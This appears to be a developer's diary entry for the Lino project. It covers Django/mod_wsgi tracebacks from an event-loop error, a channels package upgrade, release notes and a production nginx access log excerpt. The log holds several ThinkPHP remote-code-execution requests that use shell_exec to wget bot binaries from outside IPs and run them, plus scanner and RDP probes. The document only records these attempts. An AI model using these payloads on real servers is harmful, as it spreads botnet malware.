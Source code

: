 :date: 2019-11-11

=========================
Monday, November 11, 2019
=========================

We are still having errors like this one::

  mod_wsgi (pid=23481): Failed to exec Python script file '/usr/local/python/lino_sites/hobbit/apache/wsgi.py'.
  mod_wsgi (pid=23481): Exception occurred processing WSGI script '/usr/local/python/lino_sites/hobbit/apache/wsgi.py'.
  Traceback (most recent call last):
    File "/usr/local/python/lino_sites/hobbit/apache/wsgi.py", line 13, in <module>
      from lino_local import setup_wsgi ; setup_wsgi(globals())
    File "/usr/local/python/lino_local.py", line 21, in setup_wsgi
      globals_dict.update(application = get_wsgi_application())
    File "/mnt/disk/jane/env3/lib/python3.7/site-packages/django/core/wsgi.py", line 12, in get_wsgi_application
      django.setup(set_prefix=False)
    File "/mnt/disk/jane/env3/lib/python3.7/site-packages/django/__init__.py", line 24, in setup
      apps.populate(settings.INSTALLED_APPS)
    File "/mnt/disk/jane/env3/lib/python3.7/site-packages/django/apps/registry.py", line 91, in populate
      app_config = AppConfig.create(entry)
    File "/mnt/disk/jane/env3/lib/python3.7/site-packages/django/apps/config.py", line 116, in create
      mod = import_module(mod_path)
    File "/usr/lib/python3.7/importlib/__init__.py", line 127, in import_module
      return _bootstrap._gcd_import(name[level:], package, level)
    File "<frozen importlib._bootstrap>", line 1006, in _gcd_import
    File "<frozen importlib._bootstrap>", line 983, in _find_and_load
    File "<frozen importlib._bootstrap>", line 967, in _find_and_load_unlocked
    File "<frozen importlib._bootstrap>", line 677, in _load_unlocked
    File "<frozen importlib._bootstrap_external>", line 728, in exec_module
    File "<frozen importlib._bootstrap>", line 219, in _call_with_frames_removed
    File "/mnt/disk/jane/env3/lib/python3.7/site-packages/channels/apps.py", line 6, in <module>
      import daphne.server
    File "/mnt/disk/jane/env3/lib/python3.7/site-packages/daphne/server.py", line 18, in <module>
      asyncioreactor.install()
    File "/mnt/disk/jane/env3/lib/python3.7/site-packages/twisted/internet/asyncioreactor.py", line 320, in install
      reactor = AsyncioSelectorReactor(eventloop)
    File "/mnt/disk/jane/env3/lib/python3.7/site-packages/twisted/internet/asyncioreactor.py", line 62, in __init__
      eventloop = get_event_loop()
    File "/usr/lib/python3.7/asyncio/events.py", line 644, in get_event_loop
      % threading.current_thread().name)
  RuntimeError: There is no current event loop in thread 'Dummy-1'.
  mod_wsgi (pid=23481): Failed to exec Python script file '/usr/local/python/lino_sites/hobbit/apache/wsgi.py'.
  mod_wsgi (pid=23481): Exception occurred processing WSGI script '/usr/local/python/lino_sites/hobbit/apache/wsgi.py'.
  Traceback (most recent call last):
    File "/usr/local/python/lino_sites/hobbit/apache/wsgi.py", line 13, in <module>
      from lino_local import setup_wsgi ; setup_wsgi(globals())
    File "/usr/local/python/lino_local.py", line 21, in setup_wsgi
      globals_dict.update(application = get_wsgi_application())
    File "/mnt/disk/jane/env3/lib/python3.7/site-packages/django/core/wsgi.py", line 12, in get_wsgi_application
      django.setup(set_prefix=False)
    File "/mnt/disk/jane/env3/lib/python3.7/site-packages/django/__init__.py", line 24, in setup
      apps.populate(settings.INSTALLED_APPS)
    File "/mnt/disk/jane/env3/lib/python3.7/site-packages/django/apps/registry.py", line 83, in populate
      raise RuntimeError("populate() isn't reentrant")
  RuntimeError: populate() isn't reentrant


::

  $ pip install -U channels
  ...
  Installing collected packages: asgiref, daphne, channels
    Found existing installation: asgiref 2.3.2
      Uninstalling asgiref-2.3.2:
        Successfully uninstalled asgiref-2.3.2
    Found existing installation: daphne 2.2.4
      Uninstalling daphne-2.2.4:
        Successfully uninstalled daphne-2.2.4
    Found existing installation: channels 2.1.6
      Uninstalling channels-2.1.6:
        Successfully uninstalled channels-2.1.6
  Successfully installed asgiref-3.2.3 channels-2.3.1 daphne-2.3.0



Releases to PyPI: lino, xl, avanti


Excerpt from nginx access log of a public production server::

  177.66.145.245 - - [11/Nov/2019:18:07:13 +0100] "GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://194.182.85.62/bins/Tsunami.x86 -O thpnkphp ; chmod 777 thpnkphp ; ./thpnkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1" 400 173 "-" "Tsunami/2.0"
  69.249.245.65 - - [11/Nov/2019:18:14:00 +0100] "GET / HTTP/1.1" 200 612 "-" "-"
  149.200.181.46 - - [11/Nov/2019:18:24:48 +0100] "GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://157.245.182.3/sunless/sunless.x86 -O /tmp/.sunless; chmod 777 /tmp/.sunless; /tmp/.sunless thinkphp' HTTP/1.1" 400 173 "-" "thinkphp/2.0"
  86.108.110.123 - - [11/Nov/2019:18:46:23 +0100] "GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://157.245.182.3/sunless/sunless.x86 -O /tmp/.sunless; chmod 777 /tmp/.sunless; /tmp/.sunless thinkphp' HTTP/1.1" 400 173 "-" "thinkphp/2.0"
  45.95.168.115 - - [11/Nov/2019:18:51:07 +0100] "GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://185.172.110.232/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1" 400 173 "-" "Uirusu/2.0"
  77.247.109.38 - - [11/Nov/2019:18:55:57 +0100] "HEAD /robots.txt HTTP/1.0" 404 0 "-" "-"
  174.138.3.29 - - [11/Nov/2019:19:06:03 +0100] "GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://82.118.242.108/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1" 400 173 "-" "Uirusu/2.0"
  94.249.55.115 - - [11/Nov/2019:19:31:55 +0100] "GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://157.245.182.3/sunless/sunless.x86 -O /tmp/.sunless; chmod 777 /tmp/.sunless; /tmp/.sunless thinkphp' HTTP/1.1" 400 173 "-" "thinkphp/2.0"
  104.248.164.231 - - [11/Nov/2019:20:04:12 +0100] "GET / HTTP/1.0" 200 612 "-" "masscan/1.0 (https://github.com/robertdavidgraham/masscan)"
  78.128.112.14 - - [11/Nov/2019:20:18:12 +0100] "\x03\x00\x00+&\xE0\x00\x00\x00\x00\x00Cookie: mstshash=hello" 400 173 "-" "-"
  120.79.50.93 - - [11/Nov/2019:20:22:13 +0100] "GET /webdav/ HTTP/1.1" 404 169 "-" "Mozilla/5.0"
  110.139.28.38 - - [11/Nov/2019:20:32:06 +0100] "GET / HTTP/1.1" 200 612 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36"
  50.207.163.12 - - [11/Nov/2019:20:37:45 +0100] "GET /index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget%20http://142.44.251.105/x86%20-O%20loli;%20chmod%20777%20loli;%20loli thinkphp' HTTP/1.1" 400 173 "-" "Liquor/1.0"
  37.202.91.219 - - [11/Nov/2019:21:00:33 +0100] "GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://157.245.182.3/sunless/sunless.x86 -O /tmp/.sunless; chmod 777 /tmp/.sunless; /tmp/.sunless thinkphp' HTTP/1.1" 400 173 "-" "thinkphp/2.0"
